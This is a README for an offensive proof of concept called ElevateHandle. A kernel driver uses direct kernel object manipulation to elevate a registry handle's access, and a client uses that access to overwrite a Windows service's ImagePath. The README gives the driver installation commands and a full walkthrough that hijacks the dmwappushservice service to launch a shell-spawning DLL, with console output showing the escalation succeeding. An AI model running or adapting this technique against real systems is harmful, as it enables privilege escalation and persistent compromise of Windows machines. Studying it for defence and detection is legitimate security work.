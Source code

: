# ElevateHandle

PoCs to elevate handle access with DKOM method.

## Installation

```
PS C:\> sc.exe create ElevateHandle type= kernel binpath= C:\Dev\ElevateHandleDrv_x64.sys
PS C:\> sc.exe start ElevateHandle
```

## Client Program Usage

This technique requires a handle to the target object.
It is rare cases that low privileged process can get handles to high privileged process, so this client program performs service's binary path modification.

```
PS C:\Dev> .\ElevateHandleClient.exe -h

ElevateHandleClient - Client for ElevateHandleDrv.

Usage: ElevateHandleClient.exe [Options]

        -h, --help    : Displays this help message.
        -n, --name    : Specifies a service name to overwrite ImagePath value.
        -c, --command : Specifies a command to set ImagePath value.

[!] -n option is required.
```

For example, in Windows 10/11, we can start `dmwappushservice` service any users.
If attacers succeeds in tampering service registry key, it leads privilege escalation.
To test this situation, I put a [sample DLL to pop up shell in desktop session](./HijackShellLib/).
After `ImagePath` value modification, start the modified service as follows:

```
PS C:\Dev> sc.exe qc dmwappushservice | findstr /i path
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p

PS C:\Dev> C:\Dev\ElevateHandleClient.exe -n dmwappushservice -c "C:\Windows\System32\rundll32.exe C:\Dev\HijackShellLib_x64.dll FakeEntry"

[+] Got a service key handle.
    [*] Registry Key Path : \REGISTRY\MACHINE\SYSTEM\CurrentControlSet\Services\dmwappushservice
    [*] Granted Access    : KEY_QUERY_VALUE
[*] Current ImagePath is "%SystemRoot%\system32\svchost.exe -k netsvcs -p".
[+] Got a handle to \??\ElevateHandle (Handle = 0x28C).
[>] Sending a query to \??\ElevateHandle.
[+] Granted Access is elevated to KEY_ALL_ACCESS.
[+] ImagePath value is overwritten successfully.
[*] Done.

PS C:\Dev> sc.exe qc dmwappushservice | findstr /i path
        BINARY_PATH_NAME   : C:\Windows\System32\rundll32.exe C:\Dev\HijackShellLib_x64.dll FakeEntry

PS C:\Dev> sc.exe start dmwappushservice
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

PS C:\Dev>
```

![](./figures/ElevateHandle.png)
